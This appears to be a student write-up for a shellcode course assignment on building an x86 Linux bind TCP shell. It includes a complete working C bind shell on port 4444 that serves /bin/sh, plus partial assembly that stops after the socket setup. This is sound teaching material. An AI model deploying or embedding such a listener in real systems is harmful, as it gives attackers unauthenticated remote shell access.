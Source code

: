 ```yaml
---
title:  Assignment 1
description: Create a Shell Bind TCP shellcode
order: 1
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

Before we dive into shellcode, we'll first write a simple program in c to model the functionality.

```c
/* bind_tcp_model.c
 *  - Bind to a socket, listen for a connection, provide shell.
 */

#include <sys/socket.h>	// socket, AF_INET, SOCK_STREAM
#include <unistd.h>	// dup2
#include <netinet/in.h>	// sockaddr, htons, INADDR_ANY

int main() {
	int port = 4444;
	int sockfd, connfd;
	struct sockaddr_in sockaddr;

	// Build socket

	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// Bind to socket

	sockaddr.sin_family = AF_INET;
	sockaddr.sin_port = htons(port);
	sockaddr.sin_addr.s_addr = INADDR_ANY;

	bind(sockfd, (struct sockaddr *) &sockaddr, sizeof(sockaddr));

	// Listen on socket

	listen(sockfd, 0);

	// Accept a connection

	connfd = accept(sockfd, 0, 0);

	// Route i/o through connection

	dup2(connfd, 0);
	dup2(connfd, 1);
	dup2(connfd, 2);

	// Execute /bin/sh

	execve("/bin/sh", 0, 0);

	return 0;
}

```

Since the first step is creating a socket, let's look at the syscall *socketcall*, **102**.
```c
int socketcall(int call, unsigned long *args);
```
The syscall *socketcall* seems to accept a *call* parameter, so we'll take a look at those too.
```bash
> grep SYS_ /usr/include/linux/net.h

#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
...
```

To create a socket we'll need SYS_SOCKET, **1**, which from our c model we know takes the following form:
```c
int socket(int domain, int type, int protocol);
```

Let's try to put all this down in assembly.

```nasm
; bind_shell_tcp.nasm
;  - Bind to a socket, listen for a connection, provide shell.

global _start

section .text
_start:
        ; int socketcall(int call, unsigned long *args)
        ; eax = 0x66 (socketcall)
        ; ebx = 0x01 (socket)
        ; ecx = esp
        ; esp => |0x00000002|0x00000001|0x00000000|
        ;          AF_INET  SOCK_STREAM    null

        xor eax, eax
        mov al, 0x66
        xor ecx, ecx
        push ecx
        inc ecx
        push ecx
        xor ebx, ebx
        mov bl, cl
        inc ecx
        push ecx

```

Great!  Next up is bind.

<br>
{% include preamble.md %}


[&lt;&lt; Go Back]({{ site.baseurl }})
